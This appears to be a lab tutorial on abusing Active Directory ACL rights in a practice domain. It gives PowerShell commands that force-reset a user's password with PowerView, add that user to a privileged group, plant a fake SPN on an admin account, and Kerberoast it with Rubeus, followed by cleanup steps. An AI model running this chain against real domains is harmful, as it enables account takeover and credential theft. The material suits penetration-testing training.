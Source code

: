 # ACL Abuse Tactics
## Abusing ACLs

So, first, we must authenticate as wley and force change the password of the user damundsen. We can start by opening a PowerShell console and authenticating as the wley user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a PSCredential object.

### Creating a PSCredential Object
```
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

### Creating a SecureString Object
```
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

### Changing the User's Password
```
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the wley user that we control. Next, we need to perform a similar process to authenticate as the damundsen user and add ourselves to the Help Desk Level 1 group.

### Creating a SecureString Object using damundsen
```
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the Add-DomainGroupMember function to add ourselves to the target group

### Adding damundsen to the Help Desk Level 1 Group
```
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

### Confirming damundsen was Added to the Group
```
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the adunn user. Now, let's say that our client permitted us to change the password of the damundsen user, but the adunn user is an admin account that cannot be interrupted. Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the Information Technology group for this to be successful. Since we added damundsen to the Help Desk Level 1 group, we inherited rights via nested group membership. We can now use Set-DomainObject to create the fake SPN. We could use the tool targetedKerberoast to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

### Creating a Fake SPN
```
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

### Kerberoasting with Rubeus
```
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap
```

## Cleanup
### Removing the Fake SPN from adunn's Account
```
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

### Removing damundsen from the Help Desk Level 1 Group
```
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

### Confirming damundsen was Removed from the Group
```
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```